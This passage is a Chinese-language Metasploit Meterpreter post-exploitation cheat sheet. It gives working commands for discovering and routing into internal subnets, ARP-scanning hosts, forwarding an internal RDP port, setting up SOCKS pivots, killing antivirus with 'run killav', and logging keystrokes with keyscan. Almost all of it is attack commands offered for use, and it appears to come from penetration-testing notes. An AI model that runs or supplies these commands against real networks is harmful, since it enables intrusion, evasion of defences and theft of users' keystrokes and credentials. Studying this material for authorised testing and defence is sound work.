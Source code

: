 首先我们需要获取网段,然后再添加路由,添加成功后就可以横向扫描内网主机.
```bash
run get_local_subnets                   # 获取网段
run autoroute -s 192.168.205.1/24       # 添加路由
run autoroute -p                        # 查看路由
run autoroute -d -s 172.2.175.0         # 删除网段
run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24   # 探测该网段下的存活主机.
meterpreter > background                # 后台 sessions
```

**portfwd**

portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令参数.
```bash
portfwd add -l 2222 -r 1.1.1.1 -p 3389  # 将 1.1.1.3 的 3389 端口转发到本地的 2222 端口.
    -l:本地监听端口
    -r:内网目标的 ip
    -p:内网目标的端口

portfwd delete -l <port>
portfwd list


例如:
portfwd add -l 3389 -r 192.168.161.138 -p 3389
```

**pivot**

pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测.
```bash
route add <ip> <mask> <session id>      # 添加一个路由
route print

如果其它程序需要访问这个内网环境,就可以建立 socks 代理
msf 提供了3个模块用来做 socks 代理.
auxiliary/server/socks4a
auxiliary/server/socks5
auxiliary/server/socks_unc

use auxiliary/server/socks4a
SRVHOST:监听的 ip 地址,默认为 0.0.0.0,一般不需要更改.
SRVPORT:监听的端口,默认为 1080.
直接运行 run 命令,就可以成功创建一个 socks4 代理隧道,在 linux 上可以配置 proxychains 使用,在 windows 可以配置 Proxifier 进行使用.
```

### 权限维持

**关闭防病毒软件**
```bash
run killav
```

**键盘记录**
```bash
keyscan_start   # 开启键盘记录功能
keyscan_dump    # 显示捕捉到的键盘记录信息
keyscan_stop    # 停止键盘记录功能
```
